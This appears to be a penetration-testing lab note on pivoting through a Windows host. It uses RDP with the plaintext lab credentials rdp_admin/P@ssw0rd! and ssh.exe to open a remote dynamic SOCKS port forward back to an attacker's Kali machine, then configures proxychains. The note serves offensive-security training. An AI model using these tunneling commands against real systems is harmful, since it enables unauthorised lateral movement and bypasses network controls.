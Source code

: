 ### ssh.exe

OpenSSH on Windows since version 1803 (April 2018)

If Windows has SSH, other utilities also available **scp.exe**, **sftp.exe** in `%systemdrive%\Windows\System32\OpenSSH`

#### Scenario
_Problem_
Create remote dynamic port forward from MULTISERVER03 to Kali
Only RDP port open on MULTISERVER03
_Solution_
Use _rdp_admin_ credentials to RDP to server
Use ssh.exe to create remote dynamic port forward to Kali
Connect to PGDATABASE01

Starting SSH server on the Kali

`sudo systemctl start ssh`

Connecting to the RDP server on MULTISERVER03 using xfreerdp

`xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64`

Find ssh.exe on MULTISERVER03

```hlt:1
C:\Users\rdp_admin>where ssh
C:\Windows\System32\OpenSSH\ssh.exe
```

Checking ssh.exe version

```hlt:1,8.1p1
C:\Users\rdp_admin>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
```

OpenSSH client > 7.6 so remote dynamic port forward will work

Connecting back to our Kali machine to open the remote dynamic port forward

```
C:\Users\rdp_admin>ssh -N -R 9998 kali@192.168.118.4
```

Checking for the open SOCKS port on our Kali machine with ss

```hlt:1,3,5
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q      Send-Q                Local Address:Port            Peer Address:Port     Process
tcp       LISTEN     0           128                       127.0.0.1:9998                 0.0.0.0:*
tcp       LISTEN     0           128                         0.0.0.0:22                   0.0.0.0:*
tcp       LISTEN     0           128                           [::1]:9998                    [::]:*
tcp       LISTEN     0           128                            [::]:22                      [::]:*
```

Update `/etc/proxychains4.conf` to use this socket
